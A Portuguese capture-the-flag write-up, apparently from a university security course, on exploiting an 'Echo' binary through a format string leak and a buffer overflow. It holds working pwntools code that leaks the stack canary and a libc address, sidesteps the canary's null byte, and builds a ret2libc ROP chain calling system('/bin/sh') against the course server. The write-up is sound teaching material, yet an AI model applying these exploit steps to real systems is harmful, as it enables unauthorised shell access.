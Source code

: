 # Echo

### Vulnerabilidade 

Primeiramente notou-se que através de string pedida como nome se podia descobrir informações importantes sobre o sistema, uma format string vulnerability.

Numa segunda instância percebeu-se que se podia provocar um buffer overflow. O array do nome, de tamanho 20 bytes, estava a ser lido como se tivesse 100 bytes. 
Essa é a nossa janela para fazer um exploit

### Exploit

Primeiro, convém criar uma função para nos ajudar no input para o servidor, uma vez que apenas podemos explorar o nome que enviámos é útil ter uma função para tal.

```python
def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans
```

Passando agora ao que importa.
Notou-se numa primeira instância que o programa tinha todas as proteções ativadas. Para facilitar a execução do nosso exploit procurou-se desativar a aslr localmente para tornar mais percéptivel algumas associações e também permitir confirmar a nossa linha de pensamento.


Uma vez que os buffers são colocados junto ao canário suspeitá-mos que o oitavo argumento da stack seria um canário ...
![imagem.png](./ECHO1.png)

Uma vez que não tinhamos a certeza absoluta se o oitavo argumento seria ou não o canário decidimos correr o programa duas vezes e verificar se o argumento mudava...

Tal é possível pelo facto de termos desligado o aslr.

![imagem.png](./imagem.png)
![imagem-1.png](./imagem-1.png)

Uma vez que entre o canário e o return address temos o caller's save e o caller's ebp pelo que o o return address estará no 11 argumento.

Argumento 8 e 11...

![imagem-2.png](./imagem-2.png)
![imagem-3.png](./imagem-3.png)

Sabendo que esse argumento pertence a uma intrução da __libc_start_main procurou-se descobrir o offset desta para a base da libc

![imagem-4.png](./imagem-4.png)

![imagem-5.png](./imagem-5.png)

Ao fazer o mesmo para o endereço de __libc_start_main + 245, desta vez dentro do gdb, apercebemo-nos que o offset entre as duas intruções é de - 71 (decimal).
Nota: A conta varia conforme a biblioteca que se têm
Tal é importante para que consigámos dar uso a uma biblioteca auxiliar.

O endereço base será então 0xf7debee5 - libc.symbols["__libc_start_main"] + 71

Assim sendo, até aqui temos que 
```python
from pwn import *

elf = ELF("program")
LOCAL = False

if LOCAL:
   libc = elf.libc
   p = elf.process()
else:
   libc = ELF("libc.so.6")
   p = remote("ctf-fsi.fe.up.pt", 4002)

ropExec = ROP(elf)

def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans

buffOffset = 20

sms1 = message(p, b"%8$x.%11$x")
print(int(sms1.split(b'.')[0], 16))
canary, putsAddress = [int(val,16) for val in sms1.split(b'.')]

libc.address = putsAddress - libc.symbols["__libc_start_main"] + 71 # offset para base

``` 

Tendo acesso ao endereço base podemos agora altera o endereço de retorno da frame atual por uma função ao nosso agrado.
Neste caso chamaremos a função system() com o argumento da shell. 

Ou seja, escrevemos o endereço de retorno, deixámos 4 bytes (por causa do esp, slide 13 da semana 5) e depois colocámos o endereço do /bin/sh. 
Felizmente já existe uma biblioteca que nos trata disso.

```python
# Execute system
ropLib = ROP(libc)
ropLib.system(next(libc.search(b"/bin/sh")))
ropLib.exit()
```

Notou-se ainda que o canário tem um byte nulo (ver que na imagem acima que o canário acaba(começa) com \0), o que parece ser um impedimento para a escrita.
Se somarmos um valor pequeno ao ultimo byte do canário conseguimos passá-lo por cima sem sermos detetados.
Isto acontece pois a deteção só é feita ao sair da função main.
Podemos assim, numa escrita subsequente, repor o canário para o estado original.

Assim sendo,
```python
payload = flat(b"a" * buffOffset,canary + 2, b"A"*8, ropLib.chain())
# payload = flat(b"a" * buffOffset,canary + 1, b"A"*8, libc.symbols["system"], b"A"*4, next(libc.search(b"/bin/sh")))

res = message(p, payload)
```

Agora para repôr o estado do canário.

```python
r = message(p, b"." * 19)
```

Agora basta correr o programa e sair dele, usando a opção q.

![imagem-6.png](./imagem-6.png)








